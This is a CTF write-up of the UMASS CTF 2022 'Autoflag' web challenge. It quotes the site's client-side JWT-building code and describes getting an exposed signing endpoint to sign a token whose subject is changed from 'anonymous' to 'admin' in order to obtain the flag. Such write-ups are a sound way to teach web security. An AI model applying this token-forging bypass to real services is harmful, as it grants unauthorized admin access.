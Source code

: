 # UMASS CTF 2022 WEB - Autoflag
## Question
    Hmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?
http://34.148.103.218:4446
## Write-up
When you open the website,you'll see this
![image](https://user-images.githubusercontent.com/94618005/162439259-6341e608-303c-4c06-bb07-301107674747.png)
then if you click on **give me flag** button,and you'll get
![image](https://user-images.githubusercontent.com/94618005/162439568-5d1b9ae7-e85e-4786-b0ca-e1b51c535802.png)

and we back to the home page,if you click on **checkout the autoflag API**,you'll lead to a github website looks like this
![image](https://user-images.githubusercontent.com/94618005/162440367-62054cef-08a3-4626-a452-6e9e3e37a3e6.png)

So first,i trying to intercept every page that i can visit.
when i intercepted cheakout the autoflag API's request,you'll see this
![image](https://user-images.githubusercontent.com/94618005/162441325-cb5f8cb6-aac8-427d-88ec-18c8c2b235e1.png)
As you can see,the response told users do not change their identify from **anonymous** to **admin**, hmmmm... it's seems like a little sus!,  
and also told users check out their github cus they moved their server to server-side.

So we checkout the source code
#### Source Code
    //AUTOFLAG API V.1 : AUTOMATICALLY AUTHENTICATE USERS THEN REDIRECT TO FLAG
    function base64url(source) {
        encodedSource = btoa(source);
        while (encodedSource.endsWith('=')) {
            encodedSource = encodedSource.substring(0, encodedSource.length - 1)
        }
        encodedSource = encodeURI(encodedSource)
        console.log(encodedSource)
        return encodedSource;
    }

    function getSignedHMAC(unsignedToken) {
        return new Promise((resolve, reject) => {
            var xhr = new XMLHttpRequest()
            xhr.open("POST", 'http://34.148.103.218:4829/api/sign-hmac', true)

            //Send the proper header information along with the request
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            xhr.onreadystatechange = function () { // Call a function when the state changes.
                if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
                    resolve(xhr.responseText)
                }
            }
            xhr.send(`message=${unsignedToken}`)
        })
    }

    async function signToken() {
        header = `{"typ":"JWT","alg":"HS256"}`
        data = `{"fresh":false,"iat":1648755893,"jti":"a5139f01-3e20-446c-9627-16580f32f118","type":"access","sub":"anonymous","nbf":1648755893,"exp":1648756793}`
        unsignedToken = base64url(header) + "." + base64url(data)
        console.log(unsignedToken)
        let signature = await getSignedHMAC(unsignedToken)
        signature = signature.replaceAll('+', '-').replaceAll('=', '')
        let JWT = unsignedToken + "." + signature
        document.cookie = JWT
    }

    signToken()

    document.getElementById('redir').innerText = 'Redirecting you to your flag shortly'
    setTimeout(() => {
        window.location.replace("/flag");
    }, 2000)
   when you see the source code,you can find out that this problem will send a POST requests to **/api/sign-hmac** and get a unsigned Token,
   then use it to create a new JWT.
   So we just need grab the code,and paste it in the console of this challenge.and add a console.log() under JWT.
   don't forget try to change your identify from anonymous to admin.
   Then run it,and will get this back
   ![image](https://user-images.githubusercontent.com/94618005/162445164-b62ff40e-0374-48e2-96a7-a3f1b58ebdd8.png)
   
   So now we have a new JWT that the users identify is admin,and we changed cookies with this new JWT,then we send a GET requests to /flag,and you will get
   
   ![image](https://user-images.githubusercontent.com/94618005/162445794-8118d7a2-f1af-416a-bb0a-a25eb904eaaf.png)

   If get the response like "token is expired",don't be nervous,change your exp to another datetime before you print out the new JWT. 
  
